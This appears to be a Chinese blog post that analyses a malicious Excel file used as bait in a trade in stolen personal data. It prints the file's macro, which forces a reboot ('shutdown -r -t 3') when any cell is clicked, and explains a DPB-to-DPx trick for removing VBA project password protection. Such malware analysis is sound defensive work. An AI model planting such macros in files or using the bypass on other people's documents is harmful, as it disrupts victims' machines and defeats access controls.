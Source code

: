 ```yaml
---
layout: default
title: Microsoft Excel VBAScript宏脚本病毒分析
subtitle: 破解Excel文档加密宏VBA方法
apptitle: 破解Excel文档加密宏VBA方法
category: xxx
description: 全国楼凤伴游.xls 下载
permalink: /:categories/:year/:month/:day/:title
author: 全栈CEO
date: 2019/09/29
tags:
    - xxx
---
```


昨天在Telegram上看到有人在大量发布倒卖个人隐私信息的消息“ `全国选取最美校花报名信息个人资料联系方式详细`xls”、“ `全国伴游网女性数据地区年龄身高电话微信QQ全有`xls”，上传到百度网盘、蓝奏云传播，通过8图片网生成二维码赚取灰色收入，每个压缩包解压密码**69**元（支付宝收款方为 `南京罗兰布艺专卖店`），再附加上诱惑性诈骗PUA约炮资料“ `零成本睡女大学生，只付房费技巧分享`”。

今天随手搜索到了这些文档，其中有一个是全国伴游楼凤.xls，百度网盘Download之，打开Excel文档后醒目的提示含有VBA不安全宏脚本，启用之，中毒矣！瞬间电脑上打开的程序都自动关闭了，弹窗提示1分钟之内注销电脑并重启。   


## VBA宏脚本分析


> 当打开此文档的人启用过VB宏后，再点击任意一个单元格就会执行这个注销电脑登陆并重启的shell脚本。并且此宏模块无法编辑和查看，Alt+F11快速进入宏控制台界面，提示需要输入密码，被小人加密过。


## VBA宏解密


> 如果是高版本的Excel格式不为xls的需要保存为 `xls`，再使用 **Notepad++**打开，查找 **`DPB`** 并修改为 **`DPx`** ，再保存使用Excel打开，此时会报错，忽略即可。再按快捷键 **`Alt+F11`** 打开VBA控制台，继续报错，忽略之。此时已经可以看到相关代码模块了，点击看到有Password处，修改密码。再到菜单 `工具` 里进入 `VBAProject属性` 进入 `保护` 选项卡界面，设置密码并勾选`查看时锁定工程`。等一会儿模块代码内容就加载出来了，可以看到这家伙只是用 `shell`脚本写了个关机重启的命令。   


#### VB宏脚本

```vbscript
'Private Declare Function ExitWindowsEx Lib "user32" (ByVal uFlags As Long, ByVal dwReserved As Long) As Long
Public Sub msg()
'ExitWindowsEx ewx_reboot, 0
Shell "shutdown -r -t 3"
End Sub
```

![]({{site.cdn}}/img/vba/excel破解加密宏脚本VBA-DPB-dpx-QQ截图20190929205902.png)


![]({{site.cdn}}/img/vba/excel破解加密宏脚本VBA-QQ截图20190929205830.png)


![]({{site.cdn}}/img/vba/excel破解加密宏脚本VBA属性保护QQ截图20190929205734.png)


![]({{site.cdn}}/img/vba/excel破解加密宏脚本VBA属性保护设置新密码即可QQ截图20190929205801.png)


![]({{site.cdn}}/img/vba/全国楼凤excel单击单元格自动关机宏脚本QQ截图20190929205655.png)